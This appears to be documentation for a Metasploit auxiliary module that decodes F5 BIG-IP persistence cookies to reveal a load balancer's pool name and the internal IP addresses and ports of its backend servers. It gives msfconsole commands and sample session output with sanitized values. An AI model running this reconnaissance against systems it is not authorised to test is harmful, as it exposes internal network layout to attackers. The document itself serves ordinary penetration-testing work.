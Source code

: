 ## Description

This module identifies F5 BIG-IP load balancers and leaks backend information (pool name, routed domain, and backend servers' IP addresses and ports) through cookies inserted by the BIG-IP systems.

For further information:

* [K6917: Overview of BIG-IP persistence cookie encoding](https://support.f5.com/csp/article/K6917)
* [K7784: Configuring BIG-IP cookie encryption (9.x)](https://support.f5.com/csp/article/K7784)
* [K14784: Configuring cookie encryption within the HTTP profile (10.x - 15.x)](https://support.f5.com/csp/article/K14784)
* [K23254150: Configuring cookie encryption for BIG-IP persistence cookies from the cookie persistence profile](https://support.f5.com/csp/article/K23254150)

## Verification Steps

1. Start `msfconsole`
2. Select the module: `use auxiliary/gather/f5_bigip_cookie_disclosure`
3. Select your target(s): `set RHOSTS www.example.com`
4. Run the module: `run`

## Options

  **REQUESTS**

  The number of requests to send. Default value is `10`.

  **RPORT**

  The BIG-IP service port. Default value is `443`.

  **TARGETURI**

  The URI path to test. Default value is `/`.

## Scenarios

### F5 BIP-IP load balancing cookie not found

  ```
  msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS www.example.com
  RHOSTS => www.example.com
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
  [*] Running module against 93.184.216.34

  [*] Starting request /
  [-] F5 BIG-IP load balancing cookie not found
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
  ```

### F5 BIP-IP load balancing cookie found

  The sensitive information have been replaced with fake ones for privacy reasons:

  ```
  msf5 > use auxiliary/gather/f5_bigip_cookie_disclosure
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > set RHOSTS vulnerable-target.com
  RHOSTS => vulnerable-target.com
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) > run
  [*] Running module against 1.1.1.1

  [*] Starting request /
  [+] F5 BIG-IP load balancing cookie "BIGipServer~DMZ~EXAMPLE~vulnarable-target-443_pool = 1214841098.47873.0000" found
  [+] Load balancing pool name "~DMZ~EXAMPLE~vulnarable-target-443_pool" found
  [+] Backend 10.1.105.72:443 found
  [*] Auxiliary module execution completed
  msf5 auxiliary(gather/f5_bigip_cookie_disclosure) >
  ```
